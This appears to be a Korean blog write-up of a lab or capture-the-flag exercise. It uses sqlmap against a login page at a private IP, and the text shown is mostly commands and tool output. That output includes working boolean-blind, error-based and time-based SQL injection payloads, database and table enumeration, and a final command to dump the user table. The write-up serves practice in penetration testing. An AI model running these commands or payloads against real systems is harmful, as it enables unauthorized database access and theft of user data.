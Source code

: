 ![](https://velog.velcdn.com/images/agnusdei1207/post/15c1e488-585d-429e-bc9f-184f32f80aec/image.png)
![](https://velog.velcdn.com/images/agnusdei1207/post/2e58ce89-0bf9-4b3c-b031-29ed56f3b787/image.png)

# 10.201.87.236

> sqlmap -u "http://10.201.87.236/ai/includes/user_login?email=test&password=test" --dbs -level=5

![](https://velog.velcdn.com/images/agnusdei1207/post/dc7b1897-4628-4510-bbf0-fffa34e3b8ec/image.png)
![](https://velog.velcdn.com/images/agnusdei1207/post/b653bb35-7a0f-45ac-874d-1929a2321072/image.png)

---

[14:53:53] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[14:53:55] [INFO] fetching database names
[14:53:56] [INFO] retrieved: 'information_schema'
[14:53:56] [INFO] retrieved: 'ai'
[14:53:57] [INFO] retrieved: 'mysql'
[14:53:57] [INFO] retrieved: 'performance_schema'
[14:53:57] [INFO] retrieved: 'phpmyadmin'
[14:53:58] [INFO] retrieved: 'test'
available databases [6]:
[*] ai
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] test

[14:53:58] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.201.87.236'

[*] ending @ 14:53:58 /2025-09-29/

> sqlmap -u "http://10.201.87.236/ai/includes/user_login?email=test&password=test" -D ai --tables -level=5

![](https://velog.velcdn.com/images/agnusdei1207/post/16c51903-03da-4434-808c-40ab61b73996/image.png)

┌──(root㉿docker-desktop)-[/]
└─# sqlmap -u "http://10.201.87.236/ai/includes/user_login?email=test&password=test" -D ai --tables -level=5
**\_
**H**
\_** **\_[)]\_\_\_** **\_ \_** {1.9.9#stable}
|\_ -| . [)] | .'| . |
|**_|_ ["]_|_|\_|**,| _|
|_|V... |\_| https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:59:33 /2025-09-29/

[14:59:33] [INFO] resuming back-end DBMS 'mysql'
[14:59:33] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:

---

Parameter: email (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
Payload: email=test' AND 1946=(SELECT (CASE WHEN (1946=1946) THEN 1946 ELSE (SELECT 7194 UNION SELECT 7039) END))-- CHFq&password=test

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=test' OR (SELECT 1957 FROM(SELECT COUNT(*),CONCAT(0x7170787a71,(SELECT (ELT(1957=1957,1))),0x716b787a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- IXoS&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test' AND (SELECT 6412 FROM (SELECT(SLEEP(5)))qPOn)-- Actn&password=test

---

[14:59:34] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[14:59:34] [INFO] fetching tables for database: 'ai'
[14:59:35] [INFO] retrieved: 'user'
Database: ai
[1 table]
+------+
| user |
+------+

[14:59:35] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.201.87.236'

[*] ending @ 14:59:35 /2025-09-29/

> sqlmap -u "http://10.201.87.236/ai/includes/user_login?email=test@chatai.com&password=test" -D ai -T user --dump --level=5

--dump 옵션은 해당 테이블의 모든 데이터를 덤프합니다.
--level=5는 탐지 레벨을 높여 더 많은 테스트를 수행합니다.
-D 타겟 데이터베이스명
-T 타겟 테이블명

